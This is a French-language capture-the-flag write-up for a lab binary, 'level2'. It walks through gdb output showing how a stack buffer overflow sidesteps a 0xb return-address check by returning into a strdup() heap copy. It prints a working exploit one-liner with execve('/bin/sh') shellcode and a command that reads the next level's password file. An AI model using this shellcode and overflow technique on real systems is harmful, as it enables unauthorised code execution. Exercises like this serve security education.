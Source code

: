 # level2 - Exploitation du Heap via strdup()

## Analyse du Programme

**Structure du Programme**
- Le `main()` appelle une fonction `p()`
- La fonction `p()` vérifie si l'adresse de retour contient `0xb`
- Utilisation de `strdup()` qui alloue de la mémoire dans le heap

**Points Clés**
- Adresse de retour de `strdup()`: `0x804a008`
- Offset du buffer overflow: 80 bytes (Pour modifier le retour de la fonction `p()` pour pointer vers notre shellcode)
- Shellcode length: 21 bytes
- Padding nécessaire: 59 bytes (80 - 21)

- En executant la commande i f (info frame) on observe que notre saved eip est a l'adresse `0x804854a`

```nasm
eip = 0x8048505 in p; saved eip 0x804854a
```

- En affichant son instruction on voit bien qu'il s'agit d'un retour a la fonction main 

```nasm
(gdb) x/i 0x804854a
   0x804854a <main+11>: leave
```

- Avec un payload on veut pouvoir modifier ce retour pour pointer vers notre shellcode qui va executer un execve("bin/sh")
- Le shellcode a ete trouve en ligne sur ce site : `http://shell-storm.org/shellcode/files/shellcode-575.html`

```nasm
(gdb) i f
Stack level 0, frame at 0xbffff640:
 eip = 0x8048505 in p; saved eip 0x804a008
```

## Stratégie d'Exploitation

**Contournement de la Protection**
- Le programme vérifie si l'adresse de retour contient `0xb`
- L'utilisation du heap via `strdup()` permet de contourner cette protection
- L'exécution de code en mémoire est active

Comme on peut le voir ci-dessous, les fonctions libc sont sur les plages 0xb donc inutilisables avec la verification :
```nasm
(gdb) info proc mappings 
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
         0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0 
        0xb7fda000 0xb7fdd000     0x3000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```
- L'utilisation d'un call a system() de libc est donc impossible

**Construction du Payload**
1. Shellcode en début de payload (21 bytes)
2. Padding de 59 bytes
3. Adresse de retour de `strdup()`

## Exploitation

**Commande d'Exploitation**
```bash
(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"'; cat) | ./level2
```

**Obtention du Flag**
```bash
cat /home/user/level3/.pass
```

Cette exploitation fonctionne car le shellcode est exécuté depuis le heap, évitant ainsi la vérification de l'adresse de retour contenant `0xb`.
